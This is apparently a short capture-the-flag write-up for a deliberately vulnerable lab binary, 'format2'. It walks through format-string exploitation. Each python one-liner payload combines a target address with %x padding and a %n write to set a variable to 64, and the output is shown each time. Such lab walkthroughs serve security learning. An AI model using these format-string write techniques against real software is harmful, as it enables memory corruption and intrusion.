 # Format2

## First Attempt
Just like format1, we line up our values in our payload by increasing/decreasing values on the stack. The address we need to overwrite is high up on the stack. My payload looks like this:<br>
```bash
python -c "print 'AAAA' + '\xe4\x96\x04\x08' + 'BBBB' + '%x.'*4 + '%n.'" | ./format2
AAABBBB200.f7f305a0.f7f69159.41414141..
target is 43 :(
```
Ok, so from the source code I know that <b>target</b> needs to be equal to 64. How about increasing the number of A's?
```bash
python -c "print 'AAAAAAAAAAAA' + '\xe4\x96\x04\x08' + 'BBBB' + '%x.'*6 + '%n.'" | ./format2
AAAAAAAAAAABBBB200.f7f3e5a0.f7f77159.41414141.41414141.41414141..
target is 69 :(
```
Seems like I went over. But if I decrease the number of characters on the stack, things will not align. So how do I add/subtract characters without placing more things onto the stack?

## Second Attempt: Blank Space
I can actually read/write blank spaces onto the stack which will not move the address I'm trying to write to. After that, it's just a matter of determing the size of the buffer
```bash
python -c "print 'AAAA' + '\xe4\x96\x04\x08' + 'BBBB' + '%x.'*3 + '%29x.' + '%n.'" | ./format2
AAABBBB200.f7f325a0.f7f6b159.                     41414141..
you have modified the target :)
```
